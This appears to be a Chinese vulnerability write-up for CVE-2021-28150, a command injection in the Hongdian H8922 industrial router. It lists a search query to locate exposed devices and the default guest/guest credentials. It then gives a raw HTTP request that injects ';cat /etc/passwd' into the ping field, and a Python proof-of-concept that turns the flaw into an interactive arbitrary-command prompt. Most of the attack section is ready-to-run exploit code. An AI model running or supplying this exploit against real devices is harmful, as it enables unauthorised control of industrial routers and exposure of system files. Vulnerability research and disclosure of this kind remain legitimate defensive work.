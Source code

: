 # 宏电 H8922 后台命令执行漏洞 CVE-2021-28150

## 漏洞描述

宏电 H8922 后台中的网络测试模块中存在命令执行漏洞。通过命令拼接执行任意命令

## 漏洞影响

> [!NOTE]
>
> 宏电 H8922 

## ZoomEy

> [!NOTE]
>
> app:"Hongdian H8922 Industrial Router"

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

使用 ; 命令拼接执行任意命令

![](http://wikioss.peiqi.tech/vuln/hd-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

请求包为

```
POST /tools.cgi HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 96
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A
```

## 漏洞POC

```python
import requests
import sys
import random
import re
from lxml import etree
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台命令执行漏洞 CVE-2021-28150                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/tools.cgi"
    headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = "op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/tools.cgi \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功执行 cat /etc/passwd \033[0m".format(target_url))
            html = etree.HTML(response.text)
            cmd_test = html.xpath('/html/body/div[1]/div/div[2]/div/form/fieldset[2]/div/textarea/text()')[0]
            print("\033[32m[o] 响应为:\n{} \033[0m".format(cmd_test))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/tools.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = "op_type=ping&destination=;{}&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        html = etree.HTML(response.text)
        cmd_test = html.xpath('/html/body/div[1]/div/div[2]/div/form/fieldset[2]/div/textarea/text()')[0]
        print("\033[32m[o] 响应为:\n{} \033[0m".format(cmd_test))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)
```

![](http://wikioss.peiqi.tech/vuln/hd-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)